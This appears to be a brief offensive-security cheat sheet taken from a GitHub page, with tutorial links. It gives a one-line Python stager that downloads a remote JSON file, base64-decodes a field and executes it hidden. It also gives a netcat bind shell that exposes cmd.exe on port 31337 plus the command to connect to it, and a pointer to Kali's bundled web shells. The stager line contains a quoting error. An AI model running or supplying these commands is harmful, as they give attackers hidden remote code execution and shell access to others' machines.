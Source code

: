 #### Execute Hidden Python Command (In One Line, using base64 encoding) 
[More Info](https://null-byte.wonderhowto.com/how-to/execute-hidden-python-commands-one-line-stager-0236732/)
```
import json; import requests; import base64; data = (requests.get("https://github.com/skickar/Research/blob/master/twitter1.json")).json(); exec(base64.b64decode(data["m1]).decode('utf-8'))
```

#### Remote Shells in Windows
[More Info](https://www.youtube.com/watch?v=Op4s5e8gL0o)
```
nc --Lp 31337 --vv --e cmd.exe
nc 10.73.31.59 31337
```

#### Web Shell  
you can find asp,aspx,php web shell in kali linux /usr/share/webshells/
